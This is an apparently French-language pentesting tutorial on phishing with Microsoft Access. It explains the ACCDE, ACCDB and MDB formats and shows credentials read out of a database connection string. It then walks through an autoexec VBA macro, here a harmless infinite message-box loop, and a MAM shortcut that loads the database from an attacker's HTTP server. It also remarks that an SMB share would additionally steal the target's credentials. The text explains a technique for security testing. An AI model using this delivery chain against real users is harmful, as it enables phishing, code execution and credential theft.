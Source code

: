 Prérequis :

-   Programmation en VBA
    
-   Compréhension général des services Microsoft en Pentesting.
    

Comprendre le Sevice Access :

les fichiers avec pour extension ACCDE (Microsoft Access Execute Only Database) est un fichier utilisé pour protéger un ichier ACCDB. Il remplace le format MDE qui sécurise un fichier MDB utilisé par les anciennes versions d’Access. les permissions ne permettent pas de lire le code des macros (permissions Execute). C'est à dire que le code VBA d’un fichier ACCDE est enregistré de manière à empêcher quiconque de le voir ou de le modifier.

![](https://media.discordapp.net/attachments/909429116707680256/919240781158567986/unknown.png)

les differences majeur entre ACCDB et MDB c'est que ACCDB ne prennent pas en charge la sécurité ou la réplication au niveau de l’utilisateur alors que MDB oui, par contre ACCDB utilise un système cryptographique plus avancée via les API windows.

Exemple de fichier MDB :

![](https://media.discordapp.net/attachments/909429116707680256/919245188092801054/unknown.png)

Comme vous pouvez le voir les données sont partiellement chiffré on peut obtenir ces données : `Driver.SQLServer.SERVER\SQLEXPRESS` `UID: CEOuser` `PWD: CEOpassword`

Exemple de fichier ACCDB :

![](https://media.discordapp.net/attachments/909429116707680256/919246921380552704/unknown.png)

c'est illisible mais nous pouvons malgé tout avoir accès à certaines données via `strings`

![](https://media.discordapp.net/attachments/713142876241920000/919261585929809980/unknown.png)

MDB et ACCDB sont des bases de données de Microsoft Access, mais MDB n'est plus utilisé dans les versions récentes. Chaque DB contiennent différents objets comme les tables, requêtes, formulaires, états, ou encore des macros et du code VBA ( Visual Basic ). Les fichiers correspondant aux bases de données Access sont souvent lié à un fichier appellé LACCDB ou LDB pour les ancienne versions. ces fichiers sont des fichiers de verrouillage qui permettent de déterminer quels enregistrements sont verrouillés dans une base de données partagée et par qui ils sont verrouillés.

![](https://media.discordapp.net/attachments/909429116707680256/919249514563518495/unknown.png?width=522&height=343)

le but du phishing via Access peux permettre à un attaquant de gérérer un code VBA malveillant en ACCDE et en autoexec pour que au moment de l'execution la victime soit automatiquement redirigé vers le serveurs de l'attaquant.

pour l'exemple nous allons faire un code VBA innoffensif qui va faire une boucle sur la pop up.

```vb
Public Function main()
	func
End Function

Sub func()
	do
		Msgbox"RISTBS LE AKER PRO",0+16,"An0nym0us"
	loop
End Sub
```

![](https://media.discordapp.net/attachments/713142876241920000/919256210790838352/unknown.png?width=974&height=192)

pour mettre une macro et mettre l'autoexec, aller dans `Créer`->`Macro` et ajouter l'action `ExcuterCode` puis mettre la fonction principal de ton code pour ma part c'est `main()` et après `Ctrl-S` nommez le _autoexec_.

Utilisation de MAM sur un serveur HTTP mais on peut utiliser un partage SMB ce qui va en meme temps volé les creds de la cible.

```bash
[Shortcut Properties]
AccessShortcutVersion=1
DatabaseName=phishing.accdb
ObjectName=autoexec
ObjectType=Macro
Computer=DESKTOP-3IEFJ48
DatabasePath=http://<ip>/phishing.accde
EnableRemote=0
CreationTime= 1d7ee7f7e171f3a
Icon=265
```

![](https://media.discordapp.net/attachments/713142876241920000/919274348836171818/unknown.png?width=974&height=440)

Lors de l'execution du MAM voila ce qu'il ce passe.

![](https://media.discordapp.net/attachments/713142876241920000/919251022973653062/unknown.png?width=974&height=215)
